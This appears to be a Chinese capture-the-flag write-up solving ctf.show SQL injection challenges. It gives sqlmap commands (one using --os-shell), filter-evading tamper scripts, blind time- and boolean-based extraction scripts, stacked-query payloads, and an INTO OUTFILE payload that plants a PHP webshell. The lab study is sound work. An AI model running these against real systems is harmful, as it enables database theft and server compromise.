python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D
ctfshow_web --tables
爆列
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D
ctfshow_web -T ctfshow_user --columns
爆值
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump
web202
sqlmap最新版下载
使用--data 调整sqlmap的请求方式
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
//代码过于简单，不宜展示
}
通过向命令行加入–data参数转化请求方式为post
sqlmap -u http://e39cef84-16aa-4167-b5d8-2609318ff7cc.challenge.ctf.show/api/ --data 'id=1' --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump
web203
sqlmap最新版下载
使用--method 调整sqlmap的请求方式
查询语句
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
//代码过于简单，不宜展示
}
–headers=“Content-Type: text/plain” 以表单形式发送
sqlmap -u "http://29e626b4-75fb-4058-98af-126d2bf725c5.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump
web204
使用--cookie 提交cookie数据
payload:
sqlmap -u "http://c07422b1-5bde-4baa-9e8c-73ef4edfa83a.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID:eqf4q2s5ma4u4vtj31sf25lbp5;ctfshow:d5d0917
6f63d87074e926a342a996872" -D ctfshow_web -T ctfshow_user -C pass --dump
web205
api调用需要鉴权
通过抓包分析，在每次请求url/api/index.php之前需要先请求URL/api/getTokn.php
payload：
sqlmap -u "http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=60prkqe8189934t5pv3ikepa16" --safe-url="http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
web206
sql需要闭合
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
sqlmap会自动构造闭合，所以跟前一题没什么区别
但是也可以手动构造一下
payload:
根据sql语句，我们采用“)#”的方式进行右闭合。----suffix=")#"
执行sqlmap命令行
sqlmap -u "http://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=sie3k7c33euvbk2s2753f6n0j0;" --safe-url="https://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" --dbs
sqlmap -u "http://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=lb4lslploh7thdl0hdsd1008f9;" --safe-url="https://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" -D ctfshow_web --tables
sqlmap -u http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump --headers="Content-Type: text/plain" --safe-url=http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/getToken.php --safe-freq=1
web207
示例
1#!/usr/bin/env python
2
3"""
4Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
5See the file 'doc/COPYING' for copying permission
6"""
7
8from lib.core.enums import PRIORITY
9__priority__ = PRIORITY.LOW # 当前脚本调用优先等级
10
11def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
12 pass
13
14def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
15 return payload
题目
查询语句
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
return preg_match('/ /', $str);
}
这里会将waf中的关键词替换成空格
放一个Y4tacker大佬的脚本
1#!/usr/bin/env python
2"""
3Author:Y4tacker
4"""
5
6# 假设在Python 3环境中运行，将xrange替换为range
7# 从lib.core.enums模块中导入PRIORITY枚举类型
8from lib.core.enums import PRIORITY
9
10# 设置脚本的优先级为低
11__priority__ = PRIORITY.LOW
12
13def tamper(payload, **kwargs):
14 """
15 篡改函数，调用space2comment函数对有效负载进行处理
16 :param payload: 待处理的有效负载
17 :param kwargs: 其他关键字参数
18 :return: 处理后的有效负载
19 """
20 payload = space2comment(payload)
21 return payload
22
23def space2comment(payload):
24 """
25 将有效负载中的空格字符替换为换行符
26 :param payload: 待处理的有效负载
27 :return: 处理后的有效负载
28 """
29 retVal = payload
30 if payload:
31 retVal = ""
32 # 用于跟踪是否在单引号内
33 quote = False
34 # 用于跟踪是否在双引号内
35 doublequote = False
36 # 用于跟踪是否遇到第一个空格
37 firstspace = False
38
39 for i in range(len(payload)):
40 if not firstspace:
41 if payload[i].isspace():
42 firstspace = True
43 retVal += chr(0x0a)
44 continue
45
46 elif payload[i] == '\'':
47 # 取反quote的值
48 quote = not quote
49
50 elif payload[i] == '"':
51 # 取反doublequote的值
52 doublequote = not doublequote
53
54 elif payload[i] == " " and not doublequote and not quote:
55 retVal += chr(0x0a)
56 continue
57
58 retVal += payload[i]
59
60 return retVal
其实这段代码的目的就是将payload中的空格替换成换行符
其实直接用sqlmap自带的sapce2comment模板
sqlmap -u "http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=btkhe9vojj5a7piadlc51ubifk;" --referer=ctf.show -D ctfshow_web --safe-url="http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxca --dump
web208
同上一题
sqlmap -u "http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3e08elobpci83dm5l8mn4hd18k;" --referer=ctf.show -D ctfshow_web --safe-url="http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxcac --dump
web209
这题新增了点waf
查询语句
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
//TODO 未完工
return preg_match('/ |\*|\=/', $str);
}
Y4tacker大佬的tamper
1#!/usr/bin/env python
2"""
3Author:Y4tacker
4"""
5
6from lib.core.compat import xrange
7from lib.core.enums import PRIORITY
8
9__priority__ = PRIORITY.LOW
10
11
12def tamper(payload, **kwargs):
13 payload = space2comment(payload)
14 return payload
15
16
17def space2comment(payload):
18 retVal = payload
19 if payload:
20 retVal = ""
21 quote, doublequote, firstspace = False, False, False
22
23 for i in xrange(len(payload)):
24 if not firstspace:
25 if payload[i].isspace():
26 firstspace = True
27 retVal += chr(0x0a)
28 continue
29
30 elif payload[i] == '\'':
31 quote = not quote
32
33 elif payload[i] == '"':
34 doublequote = not doublequote
35
36 elif payload[i] == "*":
37 retVal += chr(0x31)
38 continue
39
40 elif payload[i] == "=":
41 retVal += chr(0x0a)+'like'+chr(0x0a)
42 continue
43
44 elif payload[i] == " " and not doublequote and not quote:
45 retVal += chr(0x0a)
46 continue
47
48 retVal += payload[i]
49
50 return retVal
其实也不用写这么复杂
直接这样也ok的
1#!/usr/bin/env python
2
3from lib.core.enums import PRIORITY
4
5__priority__ = PRIORITY.NORMAL
6
7def dependencies():
8 pass
9
10
11def tamper(payload, **kwargs):
12 return payload.replace("=", " like ").replace(" ", chr(0x09))
payload:
python sqlmap.py -u "http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3oemcboib377tes0fi7ltgh9ba;" --referer=ctf.show -D ctfshow_web --safe-url="http://aaa64ad5-5bc1-470b-b485-0549641a1327.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web209 -T ctfshow_flav --dump
web210
查询语句
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
返回逻辑
//对查询字符进行解密
function decode($id){
return strrev(base64_decode(strrev(base64_decode($id))));
}
这题会对查询的字符进行两次的base64解密和两次的反转
那我们只需要修改tamper，使传入的payload进行两次base64加密即可
1#!/usr/bin/env python
2
3from lib.core.enums import PRIORITY
4import base64
5
6__priority__ = PRIORITY.NORMAL
7
8def dependencies():
9 pass
10
11
12def tamper(payload, **kwargs):
13 rev1 = payload[::-1].encode()
14 encode1 = base64.b64encode(rev1).decode()
15 rev2 = encode1[::-1].encode()
16 encode2 = base64.b64encode(rev2).decode()
17 return encode2
payload:
python sqlmap.py -u "http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=bffum6tr2u1k3h8l9bgtkst4ni;" --referer=ctf.show -D ctfshow_web --safe-url="http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210 -T ctfshow_flavi --dump
web211
查询语句
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
返回逻辑
//对查询字符进行解密
function decode($id){
return strrev(base64_decode(strrev(base64_decode($id))));
}
function waf($str){
return preg_match('/ /', $str);
}
增加了空格waf
问题不大
1#!/usr/bin/env python
2
3from lib.core.enums import PRIORITY
4import base64
5
6__priority__ = PRIORITY.NORMAL
7
8def dependencies():
9 pass
10
11
12def tamper(payload, **kwargs):
13
14 payload0 = payload.replace(" ", chr(0x09))
15 rev1 = payload0[::-1].encode()
16 encode1 = base64.b64encode(rev1).decode()
17 rev2 = encode1[::-1].encode()
18 encode2 = base64.b64encode(rev2).decode()
19 return encode2
payload
python sqlmap.py -u "http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=ibn3o3imhq85l1043f80nbdova;" --referer=ctf.show -D ctfshow_web --safe-url="http://f9c9297a-3dc9-496e-8d15-33e170db0df8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavia --dump
web212
1查询语句
2
3//拼接sql语句查找指定ID用户
4$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
5
6返回逻辑
7
8//对查询字符进行解密
9 function decode($id){
10 return strrev(base64_decode(strrev(base64_decode($id))));
11 }
12function waf($str){
13 return preg_match('/ |\*/', $str);
14}
waf增加了*
但是不影响上一题的tamper
python sqlmap.py -u "http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=72duisds4cprdqlbtf4fu4389d;" --referer=ctf.show -D ctfshow_web --safe-url="http://2055229c-7666-493e-9329-2cdc56d820ed.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 -T ctfshow_flavis --dump
web213
1查询语句
2
3//拼接sql语句查找指定ID用户
4$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
5
6返回逻辑
7
8//对查询字符进行解密
9 function decode($id){
10 return strrev(base64_decode(strrev(base64_decode($id))));
11 }
12function waf($str){
13 return preg_match('/ |\*/', $str);
14}
根据提示，用–os-shell拿到shell读flag
其他跟上题一样
payload:
python sqlmap.py -u "http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=66ddslui3ejn3b4pa6437qm60j;" --referer=ctf.show --safe-url="http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 --os-shell
时间盲注
web214
这道题没给出注入点
主页找到select.js中，测试后发现ip为注入点
1import requests
2
3url = "http://fe78d582-57da-4291-845f-1e8ff2936104.challenge.ctf.show/api/"
4result = ""
5i = 0
6
7while True:
8 i = i + 1
9 # ASCII码范围，32到127是可打印字符的范围
10 head = 32
11 tail = 127
12
13 while head < tail:
14 # 二分查找的中间值
15 mid = (head + tail) >> 1
16 # 查表名
17 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查列名
19 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
20 # 爆字段
21 payload = "select flaga from ctfshow_flagx"
22 data = {
23 'ip': f"if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)",
24 'debug': '0'
25 }
26 try:
27 # 发送POST请求，设置超时时间为1秒
28 r = requests.post(url, data=data, timeout=1)
29 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
30 tail = mid
31 except requests.exceptions.Timeout:
32 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
33 head = mid + 1
34 except Exception as e:
35 print(f"An unexpected error occurred: {e}")
36 break
37
38 if head != 32:
39 # 如果找到有效的字符，将其添加到结果字符串中
40 result += chr(head)
41 else:
42 # 如果没有找到有效字符，退出循环
43 break
44 print("[*]Result : "+result)
web215
上题脚本改一改
1import requests
2
3url = "http://08e16d35-1a8c-4ed7-9e9e-760a32aa0756.challenge.ctf.show/api/"
4result = ""
5i = 0
6
7while True:
8 i = i + 1
9 # ASCII码范围，32到127是可打印字符的范围
10 head = 32
11 tail = 127
12
13 while head < tail:
14 # 二分查找的中间值
15 mid = (head + tail) >> 1
16 # 查表名
17 payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查列名
19 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'"
20 # 爆字段
21 # payload = "select flaga from ctfshow_flagx"
22 data = {
23 'ip': f"1' or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
24 'debug': '0'
25 }
26 try:
27 # 发送POST请求，设置超时时间为1秒
28 r = requests.post(url, data=data, timeout=1)
29 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
30 tail = mid
31 except requests.exceptions.Timeout:
32 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
33 head = mid + 1
34 except Exception as e:
35 print(f"An unexpected error occurred: {e}")
36 break
37
38 if head != 32:
39 # 如果找到有效的字符，将其添加到结果字符串中
40 result += chr(head)
41 else:
42 # 如果没有找到有效字符，退出循环
43 break
44 print("[*]Result : "+result)
web216
构造闭合即可
1import requests
2
3url = "http://d3d3aa4e-87f5-454c-b589-826971f59bbb.challenge.ctf.show/api/"
4result = ""
5i = 0
6
7while True:
8 i = i + 1
9 # ASCII码范围，32到127是可打印字符的范围
10 head = 32
11 tail = 127
12
13 while head < tail:
14 # 二分查找的中间值
15 mid = (head + tail) >> 1
16 # 查表名
17 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查列名
19 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
20 # 爆字段
21 payload = "select flagaac from ctfshow_flagxcc"
22 data = {
23 'ip': f"'') or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
24 'debug': '0'
25 }
26 try:
27 # 发送POST请求，设置超时时间为1秒
28 r = requests.post(url, data=data, timeout=1)
29 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
30 tail = mid
31 except requests.exceptions.Timeout:
32 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
33 head = mid + 1
34 except Exception as e:
35 print(f"An unexpected error occurred: {e}")
36 break
37
38 if head != 32:
39 # 如果找到有效的字符，将其添加到结果字符串中
40 result += chr(head)
41 else:
42 # 如果没有找到有效字符，退出循环
43 break
44 print("[*]Result : "+result)
web217
这题waf了sleep
可以改用benchmark
- 在 MySQL 中，
benchmark函数用于测试表达式执行的性能。它的语法是benchmark(count,expr)，其中count是要执行expr的次数，expr是要测试的表达式。- 例如，
benchmark(10000000,sha(1))表示将sha(1)这个表达式执行 10000000 次。sha(1)是计算字符串'1'的 SHA - 1 哈希值。
1import requests
2import time
3
4url = "http://b5d4a386-1612-4c40-b14c-e9103a54188c.challenge.ctf.show/api/"
5result = ""
6i = 0
7
8while True:
9 i = i + 1
10 # ASCII码范围，32到127是可打印字符的范围
11 head = 32
12 tail = 127
13
14 while head < tail:
15 # 二分查找的中间值
16 mid = (head + tail) >> 1
17 # 查数据库
18 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
19 # 查列名字
20 # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxccb' limit 1,1"
21 # 查数据
22 payload = "select flagaabc from ctfshow_flagxccb"
23 data = {
24 'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},benchmark(1000000,sha(1)),1)#",
25 'debug': '0'
26 }
27 try:
28 # 发送POST请求，设置超时时间为1秒
29 r = requests.post(url, data=data, timeout=0.33)
30 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
31 time.sleep(1)
32 tail = mid
33 except requests.exceptions.Timeout:
34 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
35 time.sleep(1)
36 head = mid + 1
37 except Exception as e:
38 time.sleep(1)
39 print(f"An unexpected error occurred: {e}")
40 break
41
42 if head != 32:
43 # 如果找到有效的字符，将其添加到结果字符串中
44 result += chr(head)
45 else:
46 # 如果没有找到有效字符，退出循环
47 break
48
49 print("[*]Result : "+result)
benchmark的设置比较苛刻，要多试试
最好不要设置太大，环境会崩
web218
1查询语句
2
3 where id = ($id);
4
5返回逻辑
6
7 //屏蔽危险分子
8 function waf($str){
9 return preg_match('/sleep|benchmark/i',$str);
10 }
11
这题sleep和benchmark都被ban掉了
可以考虑用笛卡尔积盲注
参考文章：SQL注入经验-大负荷注入-腾讯云开发者社区-腾讯云
1import requests
2import time
3
4url = "http://a17ea2c9-7463-4d5a-bfa5-2f6bdcd2daf1.challenge.ctf.show/api/"
5result = ""
6i = 0
7
8while True:
9 i = i + 1
10 # ASCII码范围，32到127是可打印字符的范围
11 head = 32
12 tail = 127
13
14 while head < tail:
15 # 二分查找的中间值
16 mid = (head + tail) >> 1
17
18 # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
19 # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxc' limit 1,1"
20 payload = "select flagaac from ctfshow_flagxc"
21 data = {
22 'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
23 'debug': '1'
24 }
25 try:
26 # 发送POST请求，设置超时时间为1秒
27 r = requests.post(url, data=data, timeout=0.15)
28 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
29 time.sleep(0.2)
30 tail = mid
31 except requests.exceptions.Timeout:
32 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
33 time.sleep(0.2)
34 head = mid + 1
35 except Exception as e:
36 time.sleep(0.2)
37 print(f"An unexpected error occurred: {e}")
38 break
39
40 if head != 32:
41 # 如果找到有效的字符，将其添加到结果字符串中
42 result += chr(head)
43 else:
44 # 如果没有找到有效字符，退出循环
45 break
46
47 print("[*]Result : "+result)
48
49# ctfshow{d317911f-ac1e-4160-be70-47d01a0f2f45}
乱码的话，多跑几次就好了
另一种方法就是通过正则 DOS RLIKE注入
利用 SQL 多次计算正则消耗计算资源产生延时效果，与 benchmark 原理类似，通过 rpad 或 repeat 构造长字符串，以计算量大的 pattern。
debug=1&ip=repeat(rpad('a', 999999, 'a'),16) rlike concat(repeat('(a.*)+',14), 'b')
web219
查询语句
where id = ($id);
返回逻辑
//屏蔽危险分子
function waf($str){
return preg_match('/sleep|benchmark|rlike/i',$str);
}
继续使用笛卡尔积盲注即可
1import requests
2import time
3
4url = "http://61d55d79-847e-43d7-80e4-c221ceae9f4a.challenge.ctf.show/api/"
5result = ""
6i = 0
7
8while True:
9 i = i + 1
10 # ASCII码范围，32到127是可打印字符的范围
11 head = 32
12 tail = 127
13
14 while head < tail:
15 # 二分查找的中间值
16 mid = (head + tail) >> 1
17
18 # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
19 # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxca' limit 1,1"
20 payload = "select flagaabc from ctfshow_flagxca"
21
22 data = {
23 'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
24 'debug': '1'
25 }
26 try:
27 # 发送POST请求，设置超时时间为1秒
28 r = requests.post(url, data=data, timeout=0.15)
29 # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
30 time.sleep(0.2)
31 tail = mid
32 except requests.exceptions.Timeout:
33 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
34 time.sleep(0.2)
35 head = mid + 1
36 except Exception as e:
37 time.sleep(0.2)
38 print(f"An unexpected error occurred: {e}")
39 break
40
41 if head != 32:
42 # 如果找到有效的字符，将其添加到结果字符串中
43 result += chr(head)
44 else:
45 # 如果没有找到有效字符，退出循环
46 break
47
48 print("[*]Result : "+result)
web220
查询语句
where id = ($id);
返回逻辑
//屏蔽危险分子
function waf($str){
return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
}
substr用left代替即可，有点像之前布尔盲注的一道题，只是改成了时间盲注罢了
1import requests
2import string
3import time
4
5url = "http://52728b9a-ffae-4f96-b51f-0549bb5cb4e0.challenge.ctf.show/api/"
6str=" _{}-" + string.ascii_lowercase + string.digits
7result = ''
8for i in range(1,45):
9 for j in str:
10 # payload = "select table_name from information_schema.tables where table_schema=database() limit 0,1"
11 # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1"
12 payload = "select flagaabcc from ctfshow_flagxcac"
13
14 data = {
15 'ip': f"1) or if(LEFT(({payload}),{i})regexp('{result+j}'),(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
16 'debug': 0
17 }
18 try:
19 r = requests.post(url, data=data, timeout=0.15)
20 time.sleep(0.2)
21 except Exception as e:
22 time.sleep(0.2)
23 result = result + j
24 print("[*] loading :"+result)
25 break
26
27print("[*] result :"+result)
web221
1查询语句
2
3 //分页查询
4 $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
5
6返回逻辑
7
8//TODO:很安全，不需要过滤
9//拿到数据库名字就算你赢
p神的文章有提到limit注入

payload:
?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)

group注入
web222
查询语句
//分页查询
$sql = select * from ctfshow_user group by $username;
返回逻辑
//TODO:很安全，不需要过滤
group by 可以进行时间盲注，布尔盲注等
本来以为是报错注入的，发现好像不太行
还是的时间盲注
拿前面的盲注脚本改一改
1import requests
2import time
3url = "http://529d9311-c036-4831-bfa1-b2ca91dae190.challenge.ctf.show/api/?u="
4result = ""
5i = 0
6
7while True:
8 i = i + 1
9 # ASCII码范围，32到127是可打印字符的范围
10 head = 32
11 tail = 127
12
13 while head < tail:
14 # 二分查找的中间值
15 mid = (head + tail) >> 1
16 # 查表名
17 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查列名字
19 # payload = "select column_name from information_schema.columns where table_name='ctfshow_flaga' limit 1,1"
20 # 爆字段
21 payload = "select flagaabc from ctfshow_flaga"
22
23 data = f"concat((if (ascii(substr(({payload}),{i},1))>{mid}, sleep(0.05), 2)), 1);"
24
25 try:
26 r = requests.post(url+data, timeout=0.05)
27 time.sleep(0.2)
28 tail = mid
29 except requests.exceptions.Timeout:
30 time.sleep(0.2)
31 # 如果请求超时，说明当前位置字符的ASCII码大于中间值
32 head = mid + 1
33 except Exception as e:
34 time.sleep(0.2)
35 print(f"An unexpected error occurred: {e}")
36 break
37
38 if head != 32:
39 # 如果找到有效的字符，将其添加到结果字符串中
40 result += chr(head)
41 else:
42 # 如果没有找到有效字符，退出循环
43 break
44 print("[*]Result : "+result)
web223
1查询语句
2
3 //分页查询
4 $sql = select * from ctfshow_user group by $username;
5
6返回逻辑
7
8//TODO:很安全，不需要过滤
9//用户名不能是数字
这题ban掉了数字
用true来构造出数字即可
这题一开始我想用时间盲注的，但是跑不出来，后面直接拿y4✌的布尔盲注跑了
如下
1import requests
2import time
3url = "http://14dc1900-f046-44e8-bfa2-e93fbc2a32b3.challenge.ctf.show/api/?u="
4result = ""
5i = 0
6
7def createNum(n):
8 num = 'true'
9 if n == 1:
10 return 'true'
11 else:
12 for i in range(n - 1):
13 num += "+true"
14 return num
15
16while True:
17 i = i + 1
18 # ASCII码范围，32到127是可打印字符的范围
19 head = 32
20 tail = 127
21
22 while head < tail:
23 # 二分查找的中间值
24 mid = (head + tail) >> 1
25
26 # 查数据库-ctfshow_flagas
27 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
28 # 查字段-flagasabc
29 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagas'"
30 # 查flag
31 payload = "select flagasabc from ctfshow_flagas"
32
33
34 params = {
35 # "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},sleep(true),true)" #时间盲注 （我没跑出来，不知道为啥
36 "u": f"if(ascii(substr(({payload}),{createNum(i)},{createNum(1)}))>{createNum(mid)},username,'a')" #布尔盲注
37 }
38
39 # try:
40 # r = requests.post(url,params=params,timeout=1)
41 # tail = mid
42 # except Exception as e:
43 # head = mid + 1
44
45 r = requests.get(url, params=params)
46 if "userAUTO" in r.text:
47 head = mid + 1
48 else:
49 tail = mid
50
51 if head != 32:
52 # 如果找到有效的字符，将其添加到结果字符串中
53 result += chr(head)
54 else:
55 # 如果没有找到有效字符，退出循环
56 break
57
58 print(result)
布尔盲注这么快，我为什么要想不开尝试时间盲注呢
web224

试了试万能密码，失败了
访问/robots.txt
发现有重置密码的路由
修改密码之后登入，看到一个文件上传
ctfshow web224 sql_文件上传产生sql注入 详解_sql注入漏洞ctf文件上传-CSDN博客
这是一道文件上传的sql注入题
当文件上传时，后台会将文件名，文件路径，文件类型（文件头）直接与sql语句进行拼接
所以我们可以构造一个恶意文件，将文件头改写成我们要拼接的sql语句，从而实现注入
如图
payload:
C64File "');select 0x3c3f3d60746163202f662a603f3e into outfile '/var/www/html/1.php';--+
新建文本，写入payload，改名为1.bin，上传文件，访问1.bin拿到flag
堆叠注入
web225
没有过滤show
username=1';show tables;
可以用handler读
payload:
username=ctfshow';show tables;handler ctfshow_flagasa open;handler ctfshow_flagasa read first;
1.
handler ctfshow_flag as a open;
HANDLER语句是 MySQL 中用于直接操作表的一种特殊方式。此语句的作用是打开一个名为ctfshow_flag的表，并将其别名为a。HANDLER语句可以绕过一些常规的查询机制，直接访问表的数据，通常用于高效地获取数据。2.
handler ctfshow_flag as a read first;该语句继续使用
HANDLER来操作之前打开的ctfshow_flag表（别名a），read first表示读取表中的第一行数据。
其他方法

web226
1查询语句
2
3 //分页查询
4 $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
5
6返回逻辑
7
8 //师傅说过滤的越多越好
9 if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set|show|\(/i',$username)){
10 die(json_encode($ret));
11 }
这道题把show给waf掉了
这题可以用预处理来打
[SQL注入][强网杯 2019]随便注(三种姿势)-CSDN博客
格式
PREPARE name from '[my sql sequece]'; //预定义SQL语句
EXECUTE name; //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name; //删除预定义SQL语句
我们可以先将要执行的语句转换成16进制后，作为预处理的sql语句传入，并执行
payload
username=1';PREPARE tables from 0x73686f77207461626c6573;EXECUTE tables;
//show tables
username=1';PREPARE columns from 0x73656c6563742067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d6461746162617365282920616e64207461626c655f6e616d653d2763746673685f6f775f666c6167617327;EXECUTE columns;
//select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='ctfsh_ow_flagas'
username=1';PREPARE flag from 0x73656c65637420666c61676173622066726f6d2063746673685f6f775f666c61676173;EXECUTE flag;
//select flagasb from ctfsh_ow_flagas
//ctfshow{7d0038e7-cede-48cc-b0fb-307177d26890}
web227
这道题没办法通过查表拿到flag
这道题的payload是
1';call getFlag();
就是执行getFlag函数拿到flag
但问题是我们要怎么知道这个函数呢
我们需要查看MySQL的存储过程，如下文
MySQL——查看存储过程和函数_mysql 查询function-CSDN博客
SELECT * FROM information_schema.Routines
通过预处理执行
username=1';PREPARE Routines from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;EXECUTE Routines;

可以看到getFlag函数和flag
web228
查询语句
//分页查询
$sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
$bansql = "select char from banlist;";
